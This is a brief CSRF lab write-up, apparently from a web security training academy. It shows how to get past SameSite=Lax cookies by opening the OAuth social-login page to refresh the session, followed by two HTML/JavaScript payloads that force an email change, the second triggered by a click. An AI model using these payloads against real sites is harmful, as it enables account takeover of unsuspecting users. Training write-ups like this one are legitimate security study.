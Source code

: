 ```js 
```
### if he using default same site cookie settings  
and you want to `bypasses` the restriction of advantages the settings for `lax for chrome users`
if the user have been logged in within 120 sec the attack will work without any restriction but if the time exceeded the 120 sec it gonnna be impossible  so we need to fiend a way to refresh the cookies 

at our lab we have 0Auth authentication method  every time we visit specific page the whole authentication process regenerates  so we need the user just visit this page first and then we apply on him the CSRF payload 


so I made this  payload 
```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> <input type="hidden" name="email" value="pwned@web-security-academy.net"> </form>
<script>
window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login'); setTimeout(changeEmail, 5000); 
function changeEmail()
{ document.forms[0].submit(); }
</script>
```
but the redirection keeps blocking cuz there is no interaction happen to prompt 
so i made another one 

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> <input type="hidden" name="email" value="pwned@portswigger.net"> </form> 
<p>Click anywhere on the page</p> 
<script>
window.onclick = () => 
{ window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login'); setTimeout(changeEmail, 5000); } 
function changeEmail() {
document.forms[0].submit(); 
} </script>
```
we make the user click any where at the page and the prompt happened and it worked 
